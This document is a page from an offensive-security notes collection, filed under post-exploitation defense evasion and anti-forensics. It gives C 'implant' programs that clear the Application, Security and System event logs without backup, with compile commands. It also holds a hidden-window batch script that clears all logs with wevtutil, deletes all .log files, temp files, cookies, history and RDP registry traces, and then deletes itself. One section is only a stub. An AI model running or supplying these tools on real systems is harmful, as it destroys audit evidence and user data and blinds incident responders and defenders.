 # Clear Event Logs

## ClearEventLog

### C

Clear a single event log.

```c
#include <stdio.h>
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")

int main() {
    HANDLE handle_event_log;
    LPCSTR event_log_name = "Application";

    // Open the event log
    handle_event_log = OpenEventLog(NULL, event_log_name);
    if (handle_event_log == NULL) {
        printf("Failed to open event log. Error: %lu\n", GetLastError());
        return 1;
    }

    // Clear the event log without saving a backup
    if (ClearEventLog(handle_event_log, NULL) == 0) {
        printf("Failed to clear event log. Error: %lu\n", GetLastError());
        CloseEventLog(handle_event_log);
        return 1;
    }

    printf("Successfully cleared the event log: %s\n", event_log_name);

    CloseEventLog(handle_event_log);

    return 0;
}
```

Clear multiple event logs.

```c
#include <stdio.h>
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")

int main() {
    HANDLE handle_event_log;
    LPCSTR event_log_names[] = {"Application", "Security", "System"};

    // Loop through each log and attempt to clear it
    for (int i = 0; i < sizeof(event_log_names) / sizeof(event_log_names[0]); i++) {
        // Open the event log
        handle_event_log = OpenEventLog(NULL, event_log_names[i]);
        if (handle_event_log == NULL) {
            printf("Failed to open event log: %s. Error: %lu\n", event_log_names[i], GetLastError());
            continue;  // Move to the next log if opening fails
        }

        // Clear the event log without saving a backup
        if (ClearEventLog(handle_event_log, NULL) == 0) {
            printf("Failed to clear event log: %s. Error: %lu\n", event_log_names[i], GetLastError());
        } else {
            printf("Successfully cleared the event log: %s\n", event_log_names[i]);
        }

        CloseEventLog(handle_event_log);
    }

    return 0;
}
```

To compile the implant.

```
$ x86_64-w64-mingw32-gcc -l advapi32 -o implant.exe implant.c
```

## ClearEventLogA

### C

```c
#include <stdio.h>
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")
```

To compile the implant.

```
$ x86_64-w64-mingw32-gcc -l advapi32 -o implant.exe implant.c
```

## Batch

A batch script to wipe the files.

```batch
:: To clean all logs in vindex I recommend to use this bootnik.
:: And even this botnick does not clean all logs, for example in the registry.
:start
cmdow @ /HID

timeout.exe /t 5

for /f "tokens=1,2*" %%V in ('bcdedit.exe') do set adminTest=%%V
if (%adminTest%)==(Access) goto noAdmin
for /f "tokens=*" %%G in ('wevtutil.exe enum-logs') do (call :clear_log "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd

:clear_log
echo clearing %1
wevtutil.exe clear-log %1
goto :eof

:noAdmin
echo Administrative privileges is required!
echo.

:theEnd
rd /s /q %SYSTEMDRIVE%\$RECYCLE.BIN
rd /s /q  %SYSTEMDRIVE%\recycler
reg.exe delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
reg.exe delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
cd %USERPROFILE%\Documents\
attrib.exe Default.rdp -s -h

del /s /q /a c:\*.log
del /s /q /a c:\*.tmp
del /f /s /q /a "%USERPROFILE%\Roaming\Macromedia\*"
del /f /s /q /a "%USERPROFILE%\Roaming\Adobe\*"
del /f /s /q /a "C:\Windows\Temp\*"
del /f /s /q /a "C:\Temp\*"
del /f /s /q /a "%USERPROFILE%\AppData\Local\Temp\*"
del /f /s /q %TEMP%\*
cd %USERPROFILE%\AppData\Local\Temp
rmdir /s /q %USERPROFILE%\AppData\Local\Temp
pushd %TEMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\TEMP && rd /s /q . > nul 2>&1
pushd %TMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\TMP && rd /s /q . > nul 2>&1
pushd %TEMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\Temp && rd /s /q . > nul 2>&1
pushd %TMP% && rd /s /q . > nul 2>&1
pushd %WINDIR%\tmp && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Application Data\Temp" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\AppData\Roaming\Adobe\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\History" && rd /s /q . > nul 2>&1
pushd %USERPROFILE%\Cookies && rd /s /q . > nul 2>&1

pushd "%USERPROFILE%\Application Data\Microsoft\CryptNetURLCache\Content\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Application Data\Microsoft\CryptNetURLCache\MetaData\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Application Data\IconCache.db" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\All Users\Application Data\Temp\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Cookies\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Local Settings\Temp\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\LocalService\Cookies\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\LocalService\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1

del /f /s /q /a "%USERPROFILE%\AppData\Roaming\Download Master\temp\*"
del /f /s /q /a "%USERPROFILE%\AppData\Roaming\Download Master\logs\*"

del %0
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/11 - Anti-Forensics/Windows/Clear Traces/04 - Clear Logs/Delete Logs/Event Logs/Manual/Living off the Land]]

### Microsoft

- [OpenEventLogA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventloga)

- [OpenEventLogW](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventlogw)

- [ClearEventLog](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/eventlogprov/cleareventlog-method-in-class-win32-nteventlogfile)

- [ClearEventLogA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventloga)

- [ClearEventLogW](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventlogw)

- [CloseEventLog](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-closeeventlog)